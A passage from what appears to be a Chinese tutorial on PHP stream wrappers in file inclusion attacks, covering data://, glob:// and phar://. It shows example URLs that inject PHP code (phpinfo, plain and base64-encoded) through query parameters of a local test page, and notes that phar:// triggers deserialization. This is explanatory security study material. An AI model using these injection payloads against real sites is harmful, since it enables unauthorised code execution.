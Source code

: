 用法： data://资源类型;编码,内容 （‘data://’也可以写成‘data:’）

例如：

```pascal
http://127.0.0.1/test.php?a=data://text/plain,<?php phpinfo()?>
or
http://127.0.0.1/test.php?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

或者
http://127.0.0.1/test.php?file=data:text/plain,<?php phpinfo()?>
or
http://127.0.0.1/test.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

```

## glob://

查找匹配的文件路径模式。

用法：glob://[文件路径]/[文件名].[文件后缀]

例如：

`glob://ext/spl/examples/*.php`

搜索`ext/spl/examples/`下所有后缀为php的文件.

## phar:// 

phar:// 数据流包装器自 PHP 5.3.0 起开始有效

用于处理phar文件时,会自动反序列化



## 参考文献

https://www.smi1e.top/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E4%B8%8Ephp%E4%BC%AA%E5%8D%8F%E8%AE%AE/#gopher

https://blog.csdn.net/whackw/article/details/46448279

https://www.php.net/manual/zh/wrappers.php